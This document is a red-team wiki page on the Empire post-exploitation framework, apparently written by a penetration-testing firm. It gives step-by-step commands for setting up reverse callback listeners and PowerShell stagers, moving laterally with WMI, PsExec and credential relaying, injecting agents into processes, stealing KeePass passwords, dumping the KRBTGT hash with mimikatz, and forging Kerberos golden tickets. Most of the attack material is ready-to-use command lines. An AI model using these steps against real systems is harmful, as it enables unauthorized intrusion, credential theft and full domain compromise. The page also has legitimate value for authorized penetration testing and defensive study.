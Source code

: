 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Empire
### Overview
Empire is another framework designed to obtain call backs from Windows systems and Linux systems. The Windows framework [https://github.com/adaptivethreat/Empire Empire] uses Powershell as the basis in order to obtain call backs. Linux side [https://github.com/adaptivethreat/EmPyre Empyre] of the house uses Python in order to do the same.

It's similar to Metasploit in setup and function. Each framework has modules that you can use in pre/post exploitation and setup.

The wiki on using Empire can be found [http://www.powershellempire.com/?page_id=110 here]

### Installation

To install Empire, download the latest github repo, and under the Setup directory run the install.sh.

You will be prompted to setup an initital password for authenticating agents, or you may let the install generate it for you.

<b>Important:</b> The password used for callbacks must be used for current and future agents. If the password changes, the agents will NOT call back in. You have been warned.

You can reset the database/setup by running the reset.sh script found in the setup directory.

== Setup a Certificate to use ==

If you want to create a self signed certificate, you can have empire generate a self signed certificate and output it into a pem format.

Under the setup director, run the cert.sh script which will generate the ceritifcate under $empire/data/empire.pem

== Setting up a Listener ==

First thing to do after installing empire, you can run it by executing the empire binary from the main directory.

In order to generate an agent for call back, you MUST setup a listener beforehand.

First goto the listeners context:

```
empire) listeners
empire) uselistener http
```

Then you can run the command "info" and it will give you a context list of commands you can run. To setup a listener, you should do the following:

* Setup a name for the listener:
    set Name Listener1

* Setup the Reverse IP Call Back
    set Host <IP_address>
    set Host <return_domain>

* Setup the Port for Call Back
    set Port 443

* Setup the Encryption
     set CertPath /root/empire/data/empire.pem


There are other options which can be set on user preference. You can view more of them on the wiki for Empire.

== Generate Stager ==

Empire can generate a "stager", which is equivalent to the metasploit meterpreter. This can be done in a variety of ways. By using the context of usestager, you can tab complete to see a list of different stagers. As of this post, these are the current stagers available:

```
dll              hta              launcher_sct     pth_wmis         teensy           
ducky            launcher         launcher_vbs     scrambled_macro  war              
hop_php          launcher_bat     macro            stager           
```

For example, we will be using the basic "launcher" stager. This will create a one liner powershell to execute on the host machine.

```
empire) usestager launcher
```

This will give you a context on the stager, launcher within Empire. You can execute "info" to give you more details. This is similar to Metasploit's show info on a payload option. You can set some other options here.

You must select a listener in order to generate anything under the stager context. Using our previous example, we can execute the following to generate powershell to get a call back to our listener:
     set Listener Listener1

The context is tab aware, so you can have it auto complete for your different listeners that you may have setup.

== Modules ==

There are multiple modules to use within Empire. They range from PSInject to WMIExec for pivoting purposes. There are also modules that allow you to steal Keepass passwords in memory along with creating Golden Tickets using Mimikatz extensions.

=== Lateral Movement ===

These modules are used in order to gain access to additional machines or other processes within the same machine.

==== Invoke-Wmi ====

Invoke-WMI is a module within Empire that allows you to get execution on another machine using WMI as the mechanism to get execution.

```
usemodule lateral_movement/invoke_wmi
set Listener <Listener_Name>
set CredID <CredID_From_Empire_Database> #Not required
set UserName <UserName> #Not Required
set Password <Password> #Not Required
```

==== inveigh_relay ====

This module uses a Responder like framework to capture credentials. Useful for obtaining credentials after Phish.

```
usemodule lateral_movement/inveigh_relay
set Target <Target_IP> # Machine to relay hashes to
set RunTime <Minutes> # How long to capture credentials
```

==== PSExec ====

This module executes a Powershell Execute (PsExec) functionality on a host

```
usemodule lateral_movement/invoke_psexec
set Target <Target_IP> # Machine to relay hashes to
set RunTime <Minutes> # How long to capture credentials
```

==== PsInject ====

This module injects an agent into a specific process. Good for getting into a specific user's context for other modules (Keepass stealing, keylogging, screen capture, etc.)

```
usemodule management/psinject
set ProcID <PID_Number> # PID number to inject into
set Listener <Listener_Name> # Listener to call back into
```

=== Golden Ticket Generation ===

These set of modules allow you to enumerate, capture, and create golden tickets on a Domain. This requires you to have access to the KRBTGT user's hash, along with the Domain SID.

==== Prep Creation of Ticket ====

<b>DO NOT USE HASHDUMP VIA METERPETER. ON LARGE ENTERPRISES THIS CAN CRASH THE SERVER</b>

===== LSADump Empire =====

This module will allow you to dump the hashes on the Domain Controller, specifically targeting a user (KBRTGT).

```
usemodule credentials/mimikatz/lsadump
set Username <Username> # Username to specifically target. Not required. *** Will result in alot of hashes
```

==== Get_Domain_SID ====

If you have a meterpreter shell that is attached to the domain, in a user context, you can execute the following command and get the SID:

```
whoami /user
domain\user  S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX-XXXX
```

You will cut off the last digits on the end (e.g., -XXXX), as that is the specific user SID. The domain is everything except that.

===== GET SID EMPIRE =====

This module will enumerate the SID of the domain. It does not require Domain Admin, but just a domain user.

```
usemodule management/get_domain_sid
```


===== RPC Client =====

```
rpcclient -U 'DOMAIN\\USER%PASSWORD' DomainController.domain.com -c "lookupnames DOMAIN"
```

==== Keepass Extraction ====

This module will extract the Keepass password if the database is open on the target machine.

```
usemodule collection/vaults/keethief
```

Must be ran in the context of the user that has the process running. (Unverified, may be used if Local Admin on the system?)

==== Generate Golden Ticket ====

Wiki on Golden Ticket Generation [https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos here].

This module can be used to run a custom command with Mimikatz on the system. This requires Local/Domain Rights on the system. You can generate a golden ticket using the built in module (credentials/mimikatz/golden_ticket) however this will only be in existence in memory. In order to generate a ticket to a file or to create a golden ticket on the fly, you can use the following commands.

You can generate this using Empire, however you can also create this using Impacket [https://artkond.com/2016/12/18/pivoting-kerberos/ here].

Impacket has an ability to use it from the command line from Linux as well, without use of Empire/Metasploit.

===== Empire Generate Ticket To File =====

```
usemodule credentials/mimikatz/command
set Command kerberos::golden /domain:FQDN.com /user:User1234 /sid:S-0-0-00-0000000000-0000000000-0000000000 /krbtgt:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa /ticket:golden.ticket
```

===== Empire Generate Ticket In Memory =====

```
usemodule credentials/mimikatz/command
set Command kerberos::golden /domain:FQDN.com /user:User1234 /sid:S-0-0-00-0000000000-0000000000-0000000000 /krbtgt:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa /ptt /startoffset:-10 /endin:600 /renewmax:600 /id:500 /groups:513,512,520,518,519
```


====== Using Golden Tickets ======

This sections show the utilization of Golden Tickets

You can read more about golden tickets and Linux [https://artkond.com/2016/12/18/pivoting-kerberos/ here]

<b> MAKE SURE YOU ARE USING THE FULLY QUALIFIED DOMAIN OF THE SYSTEM YOU WANT TO USE IT AGAINST</b>